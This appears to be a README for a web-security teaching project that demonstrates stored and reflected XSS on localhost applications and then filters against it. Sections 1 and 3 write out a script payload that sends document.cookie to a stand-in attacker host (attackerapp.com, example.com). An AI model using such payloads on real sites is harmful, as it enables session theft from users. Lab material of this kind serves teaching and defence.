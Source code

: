 # SecuringWebApplications
## 1. Persistent XSS Atack
Application: storedXssAttack1
a. Post a comment to the the url 

      URL:'http://localhost:8080/storedXssAttack1/Comment'

      Method : POST

      Request Body

          comment : <script>window.location='http://attackerapp.com/?cookie='+document.cookie</script>


b. Get the comment from the url
      http://localhost:8080/storedXssAttack1/Comment

## 2. Non-Persistent XSS Attack
      Applications: datingapp, myCommerce

      a. Open the url 'http://localhost:8080/datingapp/' and submit the registration form, you can observe that the cookies of myCommerce application are shared with attackerapp.com.
`     
## 3. XSS Prevention via Filters (Blacklisting and Whitelisting)
      Applications: xssprevention

      Deploy the application and open the url http://localhost:8080/xssprevention/comment?comment=%3Cscript%3Ewindow.location=%27http://example.com/?cookie=%27+document.cookie%3C/script%3E, you can see error message saying 'xss attack is possible'
